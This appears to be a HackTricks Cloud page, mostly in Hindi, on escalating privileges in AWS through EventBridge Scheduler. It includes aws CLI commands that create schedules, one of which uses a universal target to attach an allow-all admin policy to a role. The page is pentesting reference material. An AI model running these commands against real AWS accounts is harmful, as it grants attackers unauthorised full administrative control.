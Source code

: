 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler का उपयोग विभिन्न AWS सेवाओं के लिए कॉल शेड्यूल करके विशेषाधिकार वृद्धि के लिए किया जा सकता है। इसके शेड्यूल के आधार पर सेवाओं को सक्रिय करने की क्षमता का लाभ उठाकर, पर्याप्त अनुमतियों वाले उपयोगकर्ता विशेषाधिकार बढ़ा सकते हैं। यहाँ कुछ प्रमुख क्रियाएँ हैं जिन्हें EventBridge Scheduler टेम्पलेटेड लक्ष्यों का उपयोग करके ट्रिगर कर सकता है:

* Lambda: lambda:InvokeFunction - शेड्यूल पर Lambda कार्यों को सक्रिय करें।
* CodeBuild: codebuild:StartBuild - AWS CodeBuild परियोजनाएँ शुरू करें।
* CodePipeline: codepipeline:StartPipelineExecution - AWS CodePipeline निष्पादन को ट्रिगर करें।
* ECS: ecs:RunTask - ECS कार्य चलाएँ।
* EventBridge: events:PutEvents - EventBridge में घटनाएँ डालें।
* Inspector: inspector:StartAssessmentRun - Amazon Inspector आकलन शुरू करें।
* Kinesis: kinesis:PutRecord - Kinesis धाराओं में रिकॉर्ड डालें।
* Firehose: firehose:PutRecord - Firehose डिलीवरी धाराओं में रिकॉर्ड डालें।
* SageMaker: sagemaker:StartPipelineExecution - SageMaker पाइपलाइन निष्पादन शुरू करें।
* SNS: sns:Publish - SNS विषयों पर संदेश प्रकाशित करें।
* SQS: sqs:SendMessage - SQS कतारों में संदेश भेजें।
* Step Functions: states:StartExecution - AWS Step Functions के निष्पादन शुरू करें।

ये केवल कुछ टेम्पलेटेड क्रियाएँ हैं जो EventBridge Scheduler कर सकता है। हालाँकि, सार्वभौमिक लक्ष्यों का उपयोग करके, AWS सेवाओं के बीच कई अन्य क्रियाएँ सक्रिय की जा सकती हैं। सार्वभौमिक लक्ष्य टेम्पलेटेड सूची से परे अधिक व्यापक API संचालन की अनुमति देते हैं।

EventBridge Scheduler के बारे में अधिक जानकारी:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

उपयोगकर्ता जिनके पास `sts:AssumeRole`, `iam:PassRole`, और `scheduler:CreateSchedule या scheduler:UpdateSchedule` अनुमतियाँ हैं, वे EventBridge Scheduler का लाभ उठाकर उच्च विशेषाधिकार वाली भूमिका का उपयोग करके विशेषाधिकार बढ़ा सकते हैं।

इन अनुमतियों के साथ, एक हमलावर उच्च विशेषाधिकार वाली भूमिका ग्रहण कर सकता है और शेड्यूल बनाते या अपडेट करते समय उस भूमिका को EventBridge Scheduler को पास कर सकता है। शेड्यूल को पहले सूचीबद्ध किसी भी क्रिया को करने के लिए कॉन्फ़िगर किया जा सकता है, जैसे Lambda कार्यों को सक्रिय करना, ECS कार्य शुरू करना, CodePipeline निष्पादन को ट्रिगर करना, या EventBridge Scheduler द्वारा समर्थित 270 AWS सेवाओं में से किसी भी ऑपरेशन को करना। इन क्रियाओं को शेड्यूल करके, एक हमलावर AWS सेवाओं के बीच अनधिकृत संचालन करने के लिए उच्च विशेषाधिकार का दुरुपयोग कर सकता है। \\

उदाहरण के लिए, वे शेड्यूल को एक Lambda कार्य को सक्रिय करने के लिए कॉन्फ़िगर कर सकते हैं जो एक टेम्पलेटेड क्रिया है:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
EventBridge Scheduler में टेम्पलेटेड सेवा क्रियाओं के अलावा, आप कई AWS सेवाओं के लिए API संचालन को सक्रिय करने के लिए यूनिवर्सल टारगेट का उपयोग कर सकते हैं। यूनिवर्सल टारगेट लगभग किसी भी API को सक्रिय करने के लिए लचीलापन प्रदान करते हैं। एक उदाहरण "AdminAccessPolicy" जोड़ने के लिए यूनिवर्सल टारगेट का उपयोग करना हो सकता है, एक भूमिका का उपयोग करते हुए जिसमें "putRolePolicy" नीति है:
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## संदर्भ

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
